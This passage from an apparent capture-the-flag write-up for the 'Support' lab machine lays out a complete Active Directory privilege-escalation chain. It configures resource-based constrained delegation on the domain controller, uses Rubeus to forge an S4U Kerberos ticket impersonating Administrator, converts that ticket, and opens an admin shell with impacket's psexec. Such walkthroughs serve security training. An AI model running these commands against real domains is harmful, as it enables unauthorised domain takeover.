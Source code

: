 Now we configure the Resource-Based Constrained Delegation:

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

Verify it:

```powershell
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```

### Perform S4U Attack
This attack will allow us to acquire the Kerberos ticket on behalf of the Administrator.

Use Rubeus:

```powershell
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

Get the value of rc4_hmac and generate Kerberos ticket for the administrator:

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

Grab the last ticket (Base64) for the Administrator and save it as ticket.kirbi.b64 in our attacker's machine.

![alt text](image-3.png)

Now decode the file:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
```

Convert the ticket.kirbi to ticket.cache:

```bash
ticketConverter.py ticket.kirbi ticket.ccache
```

Using the ticket.cache, we login to the machine as Admin via impacket's psexec:

```bash
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

![alt text](image-4.png)